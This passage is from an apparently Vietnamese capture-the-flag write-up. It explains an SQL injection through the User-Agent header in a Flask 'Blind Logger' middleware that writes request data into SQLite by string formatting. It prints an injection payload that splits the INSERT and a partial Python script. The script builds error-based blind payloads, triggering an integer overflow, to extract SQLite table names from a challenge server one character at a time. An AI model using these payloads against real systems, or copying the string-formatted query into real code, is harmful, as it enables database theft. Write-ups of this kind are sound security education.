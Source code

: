 ### 3. **Blind Logger Middleware**

- Middleware "Blind Logger": Đây là một lớp trung gian trong ứng dụng Flask, nhiệm vụ là ghi lại thông tin của mọi yêu cầu (request) gửi đến server. Những thông tin này được lưu vào bảng logger trong SQLite bằng câu lệnh SQL: 
`INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('{ip_address}', '{user_agent}', '{referer}', '{url}', '{cookie}', '{created_at}');`
- Ứng dụng có một hàm "sanitise" để loại bỏ ký tự đặc biệt khỏi đầu vào, nhằm ngăn chặn tấn công SQLi
- Gợi ý: FLAG được lưu trong bảng logger
- Vì ta có thể control được các trường `user_agent`, `referer`, `url`, `cookie`... nên có thể thử chèn payload vào các field đó. Ở đây ta sẽ chèn payload vào phần `user_agent`
- Câu truy vấn gốc:
INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at)
VALUES ('{ip_address}', '{user_agent}', '{referer}', '{url}', '{cookie}', '{created_at}')
- Giả sử ta chèn {user_agent}: `', null, null, null, null),(null,'` 
⇒ Truy vấn trở thành  `INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at)
VALUES ('{ip_address}', '{user_agent}', null, null, null, null), (null,'', '{referer}', '{url}', '{cookie}', '{created_at}');`
⇒ Server sẽ thực thi câu lệnh này một cách hợp lệ và chèn **2 hàng** vào database
- Đầu tiên, tìm kiếm tên bảng với script sau:

```python
import requests
import string 

TARGET_URL = "http://103.97.125.56:31115"
CHARSET = string.ascii_letters + string.digits + "_-!@#$%^&*(){}"
MAX_TABLE_NAME_LENGTH = 50

def build_sql_payload(table_offset, char_index, char_to_guess):
    """
    Payload này sẽ được chèn vào header User-Agent.
    """
    # Câu lệnh SQL bên trong để lấy ra một ký tự của một tên bảng
    # OFFSET {table_offset}: Bỏ qua {table_offset} bảng đầu tiên để tìm bảng tiếp theo
    # LIMIT 1: Chỉ lấy 1 kết quả 
    # substr(..., {char_index}, 1): Lấy ra 1 ký tự tại vị trí {char_index} của tên bảng đó
    get_char_query = f"substr((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET {table_offset}), {char_index}, 1)"

    #"Ký tự lấy được có bằng ký tự chúng ta đang đoán không?"
    condition = f"{get_char_query} = '{char_to_guess}'"

    # Tạo ra tín hiệu Đúng/Sai
    # CASE WHEN [điều kiện] THEN [nếu đúng] ELSE [nếu sai] END
    # - Nếu đúng (condition is TRUE), trả về số 1 (hợp lệ).
    # - Nếu sai (condition is FALSE), cố tính giá trị tuyệt đối của số nguyên âm lớn nhất,
    #   gây ra lỗi tràn số (integer overflow) trong SQLite.
    error_trigger_query = f"SELECT CASE WHEN ({condition}) THEN 1 ELSE abs(-9223372036854775808) END"

    # Cuối cùng, chúng ta gói câu lệnh gây lỗi vào trong payload INSERT ban đầu
    full_payload = f"', ({error_trigger_query}), null, null, null),(null,'"
    return full_payload

def check_character(char_to_check, table_offset, char_index):
    """
    Hàm này gửi request với một payload cụ thể và kiểm tra phản hồi của server.
    Nó trả về True nếu ký tự đoán là đúng, False nếu sai.
    """
    # Tạo payload SQL cho ký tự và vị trí hiện tại
    payload = build_sql_payload(table_offset, char_index, char_to_check)
```